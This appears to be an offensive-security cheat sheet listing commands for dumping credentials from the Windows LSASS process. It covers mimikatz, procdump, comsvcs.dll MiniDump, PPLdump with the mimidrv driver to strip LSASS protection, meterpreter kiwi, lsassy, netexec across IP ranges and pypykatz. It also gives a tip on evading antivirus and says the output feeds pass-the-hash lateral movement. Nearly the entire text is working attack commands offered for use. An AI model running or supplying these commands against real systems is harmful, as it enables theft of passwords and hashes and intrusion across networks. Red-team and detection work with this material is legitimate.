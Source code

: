 # Extract credentials from LSASS

## Tools: CrackMapExec/Netexec , lsassy , mimikatz , meterpreter , procdump , PPLDump , GUI

#### 1) LSASS as a Protected Process

 - PPLdump64.exe LSASS.EXE|LSASS_PID lsass.dmp

 - mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe:" "!-" (With mimidriver.sys)

#### 2) Procdump

 - Procdump.exe -accepteula -ma lsass.exe lsass.dmp

 - mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

#### 3) Meterpreter

 - load kiwi

 - creds_all

#### 4) Mimikatz

 - mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

#### 5) lsassy

 - lsassy -d DOMAIN -u USER -p 'PASSWORD' IP

#### 6) CrackMapExec/Netexec

 - netexec smb IP_RANGE -u USER -p 'PASSWORD' -M lsassy

#### 7) rundll32.exe

 - tasklist | findstr lsass

 - C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump LSASS_PID C:\temp\LSASS.dmp

#### 8) Pypykatz

 - pypykatz lsa minidump lsass.dmp

### With LSASS dumped, you can recover NTLM Hashes as well as clertext credentials to do Lateral Movement via Pass-the-Hash or Pass-the-Key

# DUMP LSASS PROCESS WITH TASK MANAGER (REQUIRES GUI)

#### 1) GUI (Right-click on lsass.exe in Task Manager)

#### 2) Create dump file

#### 3) Copy dump file to mimikatz folder

## Sysinternals suite (Procdump)

#### procdump.exe -accepteula -ma lsass.exe c:\tools\mimikatz\lsass_dump

## TIP: Bypass AV, write code to encrypt

## Mimikatz

#### 1) mimikatz

#### 2) privilege::debug

#### 3) sekurlsa::logonpasswords

# BYPASS LSASS PROTECTION

#### 1) mimikatz

#### 2) privilege::debug 

#### 3) !+ (Load mimidrv driver into memory)

#### 4) !processprotect /process:lsass.exe /remove

#### 5) sekurlsa::logonpasswords
